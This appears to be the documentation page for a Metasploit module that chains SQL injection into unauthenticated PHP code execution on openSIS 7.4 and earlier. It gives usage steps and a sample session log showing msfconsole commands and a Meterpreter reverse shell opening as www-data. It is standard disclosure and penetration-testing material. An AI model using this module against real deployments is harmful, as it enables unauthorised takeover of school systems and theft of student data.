 ## Vulnerable Application

This module exploits multiple vulnerabilities in [openSIS](https://www.opensis.com/) 7.4 and prior versions which could be abused by unauthenticated attackers to execute arbitrary PHP code. It is based on these advisories:

- http://karmainsecurity.com/KIS-2020-06
- http://karmainsecurity.com/KIS-2020-07
- http://karmainsecurity.com/KIS-2020-08

The module has been successfully tested against [openSIS](https://www.opensis.com/) versions 7.3 and 7.4 running on Ubuntu. Older versions might be affected as well.

Download link: https://sourceforge.net/projects/opensis-ce/files/

## Verification Steps

  1. Install the web application
  2. Start msfconsole
  3. Do: ```use unix/webapp/opensis_chain_exec```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```set TARGETURI [/path/to/opensis]```
  6. Do: ```run```
  7. You should get a shell.

## Options

### TARGETURI

The base path to the web application (e.g. `/opensis/`). The default value is `/`.

## Scenarios

**openSIS 7.4 running on Ubuntu 18.04.4**

```
msf > use unix/webapp/opensis_chain_exec
msf exploit(unix/webapp/opensis_chain_exec) > set RHOSTS localhost
msf exploit(unix/webapp/opensis_chain_exec) > set TARGETURI /opensis/
msf exploit(unix/webapp/opensis_chain_exec) > check 

[*] Retrieving session cookie
[*] Injecting malicious SQL into session variable
[*] Calling ForExport.php to set $_SESSION['_REQUEST_vars']
[*] Executing PHP code by calling Bottom.php
[+] 127.0.0.1:80 - The target is vulnerable.

msf exploit(unix/webapp/opensis_chain_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Retrieving session cookie
[*] Injecting malicious SQL into session variable
[*] Calling ForExport.php to set $_SESSION['_REQUEST_vars']
[*] Executing PHP code by calling Bottom.php
[*] Sending stage (38288 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:45460) at 2020-07-01 23:31:43 +0200

meterpreter > getuid 
Server username: www-data (33)
meterpreter > 
```
